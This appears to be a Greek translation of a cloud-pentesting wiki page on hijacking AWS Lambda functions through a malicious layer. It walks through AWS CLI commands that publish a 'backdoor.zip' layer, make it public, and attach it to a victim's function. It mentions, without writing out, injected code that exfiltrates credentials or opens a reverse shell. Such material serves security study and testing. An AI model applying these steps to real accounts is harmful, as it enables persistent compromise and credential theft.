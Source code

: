 1. /var/task
2. /opt/python/lib/python3.7/site-packages
3. /opt/python
4. /var/runtime
5. /var/lang/lib/python37.zip
6. /var/lang/lib/python3.7
7. /var/lang/lib/python3.7/lib-dynload
8. /var/lang/lib/python3.7/site-packages
9. /opt/python/lib/python3.7/site-packages
10. /opt/python

Για παράδειγμα, η βιβλιοθήκη boto3 φορτώνεται από το `/var/runtime/boto3` (4η θέση).

#### Εκμετάλλευση

Είναι δυνατόν να καταχραστείτε την άδεια `lambda:UpdateFunctionConfiguration` για **προσθήκη νέου επιπέδου** σε μια λειτουργία lambda. Για να εκτελέσετε αυθαίρετο κώδικα, αυτό το επίπεδο πρέπει να περιέχει κάποια **βιβλιοθήκη που η lambda θα εισάγει.** Αν μπορείτε να διαβάσετε τον κώδικα της lambda, μπορείτε να το βρείτε εύκολα, επίσης σημειώστε ότι είναι πιθανό ότι η lambda **χρησιμοποιεί ήδη ένα επίπεδο** και μπορείτε να **κατεβάσετε** το επίπεδο και να **προσθέσετε τον κώδικά σας** εκεί.

Για παράδειγμα, ας υποθέσουμε ότι η lambda χρησιμοποιεί τη βιβλιοθήκη boto3, αυτό θα δημιουργήσει ένα τοπικό επίπεδο με την τελευταία έκδοση της βιβλιοθήκης:
```
pip3 install -t ./lambda_layer boto3
```
Μπορείτε να ανοίξετε το `./lambda_layer/boto3/__init__.py` και **να προσθέσετε την παθογένεια στον κώδικα** (ένα λειτουργία για εξυφαντώση διαπιστευμάτων ή για λήψη αντίστροφης κέλυφους για παράδειγμα).

Στη συνέχεια, συμπιέστε τον φάκελο `./lambda_layer` και **ανεβάστε το νέο επίπεδο lambda** στον δικό σας λογαριασμό (ή στον λογαριασμό του θύματος, αλλά μπορεί να μην έχετε δικαιώματα γι' αυτό).\
Σημειώστε ότι πρέπει να δημιουργήσετε έναν φάκελο python και να τοποθετήσετε τις βιβλιοθήκες εκεί για να αντικαταστήσετε το /opt/python/boto3. Επίσης, το επίπεδο πρέπει να είναι **συμβατό με την έκδοση της Python** που χρησιμοποιείται από το lambda και αν το ανεβάσετε στον δικό σας λογαριασμό, πρέπει να είναι στην **ίδια περιοχή:**
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
{% endcode %}

Τώρα, κάντε το επιφορτισμένο lambda layer **προσβάσιμο από οποιοδήποτε λογαριασμό**:
```bash
aws lambda add-layer-version-permission --layer-name boto3 \
--version-number 1 --statement-id public \
--action lambda:GetLayerVersion --principal *
```
Και επισυνάψτε το λάμδα επίπεδο στη λειτουργία λάμδα του θύματος:
```bash
aws lambda update-function-configuration \
--function-name <func-name> \
--layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
--timeout 300 #5min for rev shells
```
Το επόμενο βήμα θα είναι είτε να **εκτελέσουμε τη λειτουργία** μόνοι μας αν μπορούμε, είτε να περιμένουμε μέχρι να **εκτελεστεί** με κανονικά μέσα - το οποίο είναι ο ασφαλέστερος τρόπος.
